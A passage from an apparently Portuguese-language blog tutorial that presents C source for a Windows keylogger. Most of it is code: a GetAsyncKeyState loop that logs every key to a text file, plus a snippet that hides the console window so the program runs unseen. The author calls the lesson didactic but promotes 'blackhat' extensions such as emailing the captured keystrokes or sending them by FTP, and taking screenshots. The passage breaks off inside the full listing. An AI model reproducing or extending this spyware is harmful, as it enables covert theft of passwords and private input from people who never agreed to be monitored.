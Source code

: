                     case VK_CAPITAL:
                    fputs("\r\n[CAPS LOCK]\r\n",file);
                    fclose(file);
                    break;
                    default:
                    fputc(i, file);
                    fclose(file);
                }
            }
        }
    }
    return 0;
}
{% endhighlight  %}
<p>Código pra caralho né, é assim mesmo quer pouca linha vá programar em python :D, isso em python até meu primo de 7 anos faz,(pyhook) tou ensinando lógica programação pra ele kkkk,, podemos fazer algum mais louco em python como enviar esse arquivo com as teclas por email (pensamento Blackhat), ou FTP, claro da pra fazer até tirar screenshot quando começar a digitar e enviar por email, em fim várias possibilidades. vou explicar essa parte até porque não comentei nada, mas da pra entender né, é apenas um <a>switch</a> e uma cacetada de Case pra dentro, primeiro precisamos verificar algumas teclas claro temos que tratar tudo pra não ficar código no meio de caracter ai nosso keylogger vai ficar feio não queremos isso, podemos fazer isso com menos código ? sim claro depois vou colocar abaixo, mas vamos usar outras funções, lembre-se sempre esse artigo é didático mano, em breve vamos fazer algum para blackhat mesmo , como falei mas é preciso antes disso ter o knowledge.essa função é muito usada no desenvolvimento de Jogos, veja que os tratamento vai de função para função caso o cara digite 'CAPS LOCK'  na GetAsyncKeyState function vai voltar VK_CAPITAL, então nós gravamos no arquivo como CAPS LOCK claro, e por ai vai números também a mesma coisa. ainda mais o Espaço  que é o primeiro a ser tratado lá em cima. então isso é tudo pessoal:</p>
<img src="https://dl.dropboxusercontent.com/u/97321327/keylogger1.png">
{% highlight c++ %}
    HWND hidden; // blackhat na área kkk
    AllocConsole();  
    hidden = FindWindow("ConsoleWindowClass", NULL);
    ShowWindow(hidden, 0);
{% endhighlight  %}
<p>Para ficar mais blackhat vamos ocultar nossa janela :D fique com o código completo use o DevC++ pra compilar ou VS12 sei lá:</p>
{% highlight c++ %}
// Filename: keylogger.c 
//by: Mharcos Nesster
#include < stdio.h >  
#include < windows.h >  
 
int main() {
    short i;  // contador 
    short keyState;  // comprar key
    HWND hidden; // modo blackhat 
    AllocConsole();  //  inicializa a entrada padrão: em modo Hidden lógico  também do Hearder Windows.h 
    hidden = FindWindow("ConsoleWindowClass", NULL); // agora sim 
    ShowWindow(hidden, 0);  // call windows em modo Hidden (de mortal Kombat EHHEHEH)
 
    while(1) {
        for(i = 0; i <= 255; i++) {
            keyState = GetAsyncKeyState(i);
            if(keyState == -32767) {
                Sleep(30);
                FILE *file;
                file = fopen("C:/Users/Marcos/Desktop/test.txt", "a+");
 
                if(file == NULL) {
                    printf("Erro ao criar o Arquivo test.txt.\n");
                    exit(1);
                }
 